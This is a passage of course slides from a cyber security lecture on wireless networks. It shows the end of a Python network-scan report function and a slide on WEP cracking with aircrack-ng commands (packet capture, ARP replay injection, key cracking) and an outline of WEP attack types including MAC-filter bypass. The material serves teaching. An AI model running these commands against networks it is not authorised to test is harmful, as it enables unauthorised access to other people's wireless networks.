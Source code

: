 ```python

Scan Date: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}
Networks Discovered: {len(self.networks)}

NETWORK INVENTORY:
        """
        
        for bssid, network in self.networks.items():
            report += f"""
BSSID: {bssid}
ESSID: {network['essid']}
Channel: {network['channel']}
Security: {network['privacy']}
Signal: {network['power']} dBm
        """
        
        return report
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# WEP and WPA/WPA2 Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 🔓 WEP Cracking Attacks

### ⚡ Aircrack-ng WEP Attack
```bash
# Start packet capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_crack wlan0mon

# Generate traffic (in another terminal)
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CC:DD:EE:FF:00:11 wlan0mon

# Crack WEP key when sufficient IVs collected
sudo aircrack-ng -b AA:BB:CC:DD:EE:FF wep_crack-01.cap
```

### 🎯 WEP Attack Types
```yaml
ARP Request Replay:
  - Capture ARP packet
  - Replay to generate traffic
  - Collect unique IVs
  - Crack with statistical analysis

Fake Authentication:
  - Associate with access point
  - Generate authenticated packets
  - Bypass MAC filtering
  - Enable injection attacks
```